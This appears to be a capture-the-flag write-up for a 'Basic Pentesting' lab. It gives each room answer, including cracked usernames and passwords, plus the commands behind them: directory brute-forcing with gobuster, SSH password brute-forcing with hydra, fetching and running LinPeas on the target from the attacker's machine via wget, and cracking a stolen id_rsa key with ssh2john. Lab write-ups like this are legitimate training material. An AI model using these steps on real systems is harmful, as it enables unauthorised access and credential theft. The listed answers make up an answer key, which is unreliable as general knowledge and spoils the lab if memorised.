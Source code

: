 # Basic Pentesting

## Task 1 - Web App Testing and Privilege Escalation

### Answer the questions below

- Deploy the machine and connect to our network

    `No answer needed`

- Find the services exposed by the machine

    `No answer needed`

- What is the name of the hidden directory on the web server(enter name without /)?

    `development`

    ![hidden-directory](/IMAGES/Basic%20Pentesting/Basic_Pentesting(HiddenDirectory).png)

    Command Command Syntax: `gobuster dir -u <url> -w /usr/share/wordlists/dirb/common.txt`

- User brute-forcing to find the username & password

    `No answer needed`

    For finding the users we use `enum4linux`:

    ![enum4linux](/IMAGES/Basic%20Pentesting/Basic_Pentesting(enum4linux1).png)

    ![enum4linux](/IMAGES/Basic%20Pentesting/Basic_Pentesting(enum4linux2).png)

    We find two important users namely `jan` and `kay`

- What is the username?

    `jan`

- What is the password?

    `armando`

    Since we knew the username so we run `hydra` to find the password:

    ![username and password](/IMAGES/Basic%20Pentesting/Basic_Pentesting(Bruteforcing).png)

    Basic Command Syntax: `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh:<url>`

- What service do you use to access the server(answer in abbreviation in all caps)?

    `SSH`

- Enumerate the machine to find any vectors for privilege escalation

    `No answer needed`

- What is the name of the other user you found(all lower case)?

    `kay`

- If you have found another user, what can you do with this information?

    `No answer needed`

- What is the final password you obtain?

    `hereareallystringpasswordthatfollowsthepasswordpolicy$$`

    In order to get this password we did **Privilege Escalation**. For this we use a tool called `LinPeas` and proceed through the following steps:
    - First we download LinPeas tool on our kali machine using the following command: `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh`
    
    - Then we spin up a python server on our kali machine to make this file accessible on the target machine: `python3 -m http.server 8000`

    - On the target machine we move to the temp folder by `cd /tmp` command
    
    - In order to access the `linpeas.sh` file on the target machine we use wget: `wget http://<your-tun0-address>:8000/linpeas.sh` (Replace `<your-tune0-address>` with your vpn address)
    
    - Now we give permissions to the linpeas.sh file and execute it:

        `chmod +x linpeas.sh`

        `./linpeas.sh`

        We find the `id_rsa` file through this: 

        ![id_rsa file](/IMAGES/Basic%20Pentesting/Basic_Pentesting(id_rsa).png)

    - We then copy the rsa_id content and paste it in a file on our host kali machine using `nano`:

        ![copying rsa_id](/IMAGES/Basic%20Pentesting/Basic_Pentesting(copying_id_rsa).png)

    - After that we convert it through `ssh2john` and brute force the password:

        ![brute forcing kay's password](/IMAGES/Basic%20Pentesting/Basic_Pentesting(Running%20john%20for%20extracting%20password%20for%20kay).png)

        The ssh password for kay was found to be `beeswax`

    - Now we login through ssh and extract the final password from `pass.bak` file:

        ![kay's password](/IMAGES/Basic%20Pentesting/Basic_Pentesting(Kay's%20password).png)
    
